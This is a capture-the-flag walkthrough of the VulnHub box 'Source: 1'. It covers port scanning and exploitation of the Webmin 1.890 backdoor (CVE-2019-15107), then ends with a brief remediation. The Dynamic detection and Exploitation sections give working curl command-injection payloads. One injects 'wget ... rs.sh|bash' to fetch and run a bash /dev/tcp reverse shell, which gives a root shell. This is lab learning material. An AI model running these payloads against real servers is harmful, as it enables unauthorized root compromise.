









# Source 1

Difficulty:: #VeryEasy
> Classified according to [Vulhub difficulty page](https://www.vulnhub.com/difficulty/)

## Target data
- Link: [SOURCE: 1](https://www.vulnhub.com/entry/source-1,514/)
- CVSS3 : [AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H/E:H/RL:O/RC:C/CR:H/IR:H/AR:H](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H/E:H/RL:O/RC:C/CR:H/IR:H/AR:H)
  > **Warning**: I select the CVSS3 score to start to practice, so is very possible that I made a mistake in the selection, so do not trust of that CVSS3.

## Machine Description
*An easy CTF box created for use with the AttackerKB room. This is the standalone version for practicing. This box will likely show up in a subsequent room on supply chain attacks as it's an excellent and recent example of that. This works better with VMware rather than VirtualBox (Blank screen)*


## Summary
SOURCE: 1 starts with a custom `HTTP` service in port `10000`, and it is the `MiniServ 1.890 (Webmin httpd)`, when I go to that service I find it redirects to `https://source:10000`, after google research I find the [Webmin official site](https://www.webmin.com/) and there they mentions a vulnerability that affects that version and I find a [PoC in a GitHub repository](https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE). The vulnerability is a backdoor `CVE-2019-15107` and I identify that it is running by the `root` user. then I perform a reverse shell, and I get the user and the root flag.

1. CWE-78: Improper Neutralization of Special Elements used in an OS Command

#VMWare #Nmap #Python #Webmin #Backdoor

## Enumeration
When I run the target machine in VMware Workstation 17 Player (see the [setup vulnhub machines](../setup-vulnhub.md), and on my target machine, I run the `netdiscover` command:
```shell
$ sudo netdiscover -i enp0s3 -r 192.168.56.1/24
```
Then I compare the MAC with that of the target VMware configuration, and I find out that the IP is `192.168.56.108`



And I start scanning the target with `nmap`:
```shell
$ nmap -p- -sV -oA scans/nmap-full-tcp-scan 192.168.56.108
# Nmap 7.92 scan initiated Wed Jan 25 14:39:49 2023 as: nmap -sV -oA scans/nmap-tcp-scan 192.168.56.108
Nmap scan report for 192.168.56.108
Host is up (0.047s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 25 14:40:30 2023 -- 1 IP address (1 host up) scanned in 40.86 seconds
```
And I identify 2 open ports, the `OpenSSH 7.6p1` service runs in `22` TCP, and `MiniServ 1.890 (Webmin httpd)` service runs in `10000` TCP, and it runs on `Ubuntu 4ubuntu0.3`. When I make the `OPTIONS` request with the `curl` command:
```shell
$ curl -X OPTIONS 192.168.56.108:10000
<h1>Error - Document follows</h1>
<p>This web server is running in SSL mode. Try the URL
<a href='https://source:10000/'>https://source:10000/</a> instead.<br></p>
```
Then I can see that it uses a `https`, and the `source` domain name, then I add it to my `/etc/hosts` file:
```shell
$ echo "192.168.56.108 source" | sudo tee -a /etc/hosts
```

## Normal use case
Login to Webmin.

Given I access `https://source:10000`, then I can see a login form:



But without credentials, I can not do anything.

## Dynamic detection
`CVE-2019-15107` unauthenticated remote code execution on `Webmin 1.890`.

Given I access `https://source:10000`, and I know it runs `MiniServ`, then I start looking at that services. When I google `MiniServ 1.890 HTTP`, then I find the [Webmin official site](https://www.webmin.com/):



And I also find something about a backdoor:



And I find a [PoC in a GitHub repository](https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE):


And I also find it in [exploit-db](https://www.exploit-db.com/exploits/47230):



And it has the `CVE-2019-15107`, and the backdoor allows unauthenticated remote code execution. When I test the PoC:
```shell
$ curl -k https://source:10000/password_change.cgi -d \
>'user=gotroot&pam=&expired=2|echo "";id' \
> -H 'Referer: https://source:10000/session_login.cgi'

<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
uid=0(root) gid=0(root) groups=0(root)
</p>
```
Then I can see that the service is running by the root user, then I can conclude that the vulnerability exists on the server.

## Exploitation
Reverse shell with the `CVE-2019-15107`.

Given I access `https://source:10000`, and it uses `Webmin 1.890`, and that version is vulnerable to `CVE-2019-15107`, and I already checked the vulnerability of the backdoor, then I can try to get a reverse shell.

When I open a listener with the `nc` command:
```shell
$ nc -lvnp 1234
```
And I store the reverse shell command in the `rs.sh` file
```shell
$ echo "bash -c 'bash -i >& /dev/tcp/192.168.56.101/1234 0>&1'" > rs.sh
```
And I open an `HTTP` server with Python3:
```shell
$ python3 -m http.server 8000
```
And I use the following `curl` command:
```shell
$ curl -k https://source:10000/password_change.cgi -d \
> 'user=gotroot&pam=&expired=2|echo "";
> wget -O- 192.168.56.101:8000/rs.sh|bash' \
> -H 'Referer: https://source:10000/session_login.cgi'
```
Then I get the reverse shell as the root user:



And I can get the user flag:



And the root flag:



## Remediation
Given the server runs `Webmin 1.890`, then they must update to the latest version, and do not use the root user to run services that will be exposed.